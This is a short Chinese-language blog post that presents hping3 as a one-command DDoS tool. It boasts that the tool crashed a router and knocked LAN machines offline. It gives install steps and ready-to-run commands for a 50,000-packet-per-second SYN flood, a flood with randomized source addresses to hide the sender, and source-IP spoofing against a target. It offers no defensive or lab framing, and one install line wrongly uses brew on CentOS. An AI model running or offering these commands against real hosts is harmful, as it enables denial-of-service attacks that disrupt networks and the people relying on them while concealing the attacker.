 ```yaml
---
title: 一条命令实现DDOS
date: 2022-02-15 00:00:00
tags: 技术
---
```


# 一条命令实现DDOS攻击

	这个工具可太强了，一会就把路由器发崩溃了，局域网的电脑也连不上了

# 工具
1. hping3

```shell
# debian
apt install hping3
# mac
brew install hping
# centos
brew install hping3
```

# SYN DDOS攻击

	工具使用方法
```shell
# -S specifies sending SYN packets
# -p 80 targets port 80
# -i u20 waits 20 microseconds between packets = 50,000
# packets per second
sudo hping3 -i u20 -S -p 80 -c 50000 ip(x.x.x.x)
```

# 隐藏自身IP地址

	模拟出多个IP攻击主机的情况
	其实SYN攻击，只需要发送SYN包，返回的包根本不处理
	所以SYN包的source_address可以随机填写

```shell
# --rand-source    random source address mode
# --flood	   sent packets as fast as possible
sudo hping3 --rand-source -flood -S -p 80 ip(x.x.x.x)
```

# 其它
1. hping3还可以IP欺骗
	类似arp投毒，原理都很简单，发送假的本机IP
```shell
# 发送三次SYN包到<target IP>,原本应该返回到本机，但是现在返回到了<spoofed IP>
hping3 -S <target IP> -a <spoofed IP> -c 3
```